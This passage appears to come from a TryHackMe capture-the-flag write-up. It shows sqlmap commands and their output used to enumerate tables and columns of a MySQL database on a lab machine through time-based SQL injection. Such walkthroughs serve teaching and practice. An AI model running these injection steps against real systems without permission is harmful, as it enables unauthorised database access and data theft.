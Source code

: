 ```
......
[19:47:18] [INFO] the back-end DBMS is MySQL
[19:47:18] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
web server operating system: Linux Ubuntu 12.10 or 13.04 or 12.04 (Raring Ringtail or Quantal Quetzal or Precise Pangolin)
web application technology: Apache 2.2.22, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.12
[19:47:18] [INFO] fetching tables for database: 'THM_f0und_m3'
[19:47:18] [INFO] fetching number of tables for database 'THM_f0und_m3'
[19:47:19] [INFO] retrieved:
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
2
[19:47:39] [INFO] retrieved: nothing_inside
[19:52:04] [INFO] retrieved: user
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+

```
We found tables. Let's try each.
```
sqlmap.py -r ~/Downloads/request.txt  -D THM_f0und_m3 -T nothing_inside --columns


        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:52:44 /2022-04-02/

[19:52:44] [INFO] parsing HTTP request from '/Users/laurentnebout/Downloads/request.txt'
[19:52:44] [WARNING] unable to write to the output directory '/Users/laurentnebout/.local/share/sqlmap/output' ([Errno 13] Permission denied: '/Users/laurentnebout/.local/share/sqlmap/output/rUEb'). Using temporary directory '/var/folders/dj/0j
..........
[19:56:04] [INFO] retrieved: varchar(30)
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+

[19:57:24] [INFO] fetched data logged to text files under '/var/folders/dj/0jhmdqp10lj1ql8htw2f8g900000gn/T/sqlmapoutput9uxpf5cl/10.10.207.62'

```
Because we found only one field, we can easily guess we will find the flag inside. 
```
```